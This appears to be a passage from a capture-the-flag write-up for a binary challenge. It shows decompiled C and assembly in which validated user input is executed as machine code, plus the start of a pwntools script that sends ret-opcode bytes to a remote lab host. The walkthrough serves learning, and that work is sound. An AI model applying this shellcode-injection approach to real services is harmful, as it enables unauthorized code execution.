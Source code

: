 The biggest roadblock ahead for me was figuring out how to utilize the allowed bytes, as in what do they represent, how the program is using it. This is when I figured out in the function `check()`, after `validate_payload()` get called, the input buffer get called as a function! Here's the C and ASM equivalent from Binary Ninja:

> You can see the `inputBuffer()` being called, with the ASM equivalent `call rdx`.

- C:
```c
if (validate_payload(inputBuffer, 59) == 0)
{
    error("Invalid payload! Execution denie…");
    exit(1);
}
    
inputBuffer();
munmap(inputBuffer, 60);
```

- ASM:
```x86asm
000019a6  e8fef9ffff         call    validate_payload
000019ab  85c0               test    eax, eax
000019ad  7519               jne     0x19c8

000019af  488d0582190000     lea     rax, [rel data_3338]
000019b6  4889c7             mov     rdi, rax  {data_3338, "Invalid payload! Execution denie…"}
000019b9  e834fcffff         call    error
000019be  bf01000000         mov     edi, 0x1
000019c3  e8c8f8ffff         call    exit

000019c8  488b4590           mov     rax, qword [rbp-0x70 {var_78}]
000019cc  48894598           mov     qword [rbp-0x68 {var_70}], rax
000019d0  488b5598           mov     rdx, qword [rbp-0x68 {var_70}]
000019d4  b800000000         mov     eax, 0x0
000019d9  ffd2               call    rdx
```

Initially, my prediction for this was our input bytes is an address for a function that we can call in the program when `call rdx` is executed. But running the program in `GDB` tells me that the input buffer already got map to a specific address, as I also later found out that is because of the `mmap()` function. 

**=> This mean our input is being used as opcode and operands to create ASM instruction!**

A little research on x86_64 ASM show us that the byte `c3` is opcode for `ret` in ASM, which is what I used for my input payload in the exploit script:

> We actually need more then just a return instruction later, but my goal as this point was just to get past the input buffer being call as a function and move foward.

+ **payload.py**

```python
from pwn import *

# Remote connection details
host = "94.237.50.250"
port = 54813

# Payload to send after 'ts: '
payload = b'\xc3' * 60

# Connect to the remote host
conn = remote(host, port)

# Wait for 'x": ' and send "fix"
output = conn.recvuntil(b'x": ')
print(output.decode())
```